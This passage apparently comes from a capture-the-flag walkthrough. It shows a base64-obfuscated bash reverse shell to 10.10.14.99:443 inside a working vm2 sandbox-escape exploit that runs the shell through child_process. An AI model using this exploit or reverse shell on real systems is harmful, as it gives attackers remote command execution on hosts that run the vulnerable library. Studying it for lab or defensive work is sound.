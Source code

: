 ```bash 
echo "/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.99/443 0>&1'" | base64 -w 0 
L2Jpbi9iYXNoIC1jICdiYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0Ljk5LzQ0MyAwPiYxJwo=                       
```

**So finally our payload will be:**

```bash 
L2Jpbi9iYXNoIC1jICdiYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0Ljk5LzQ0MyAwPiYxJwo= | base64 -d | bash
```

So just we need to add my payload to the exploit, go to editor a click on run:

```bash 
const {VM} = require("vm2");
const vm = new VM();

const code = `
async function fn() {
    (function stack() {
        new Error().stack;
        stack();
    })();
}
p = fn();
p.constructor = {
    [Symbol.species]: class FakePromise {
        constructor(executor) {
            executor(
                (x) => x,
                (err) => { return err.constructor.constructor('return process')().mainModule.require('child_process').execSync('echo L2Jpbi9iYXNoIC1jICdiYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0Ljk5LzQ0MyAwPiYxJwo= | base64 -d | bash'); }
            )
        }
    }
};
p.then();
`;

console.log(vm.run(code));
```
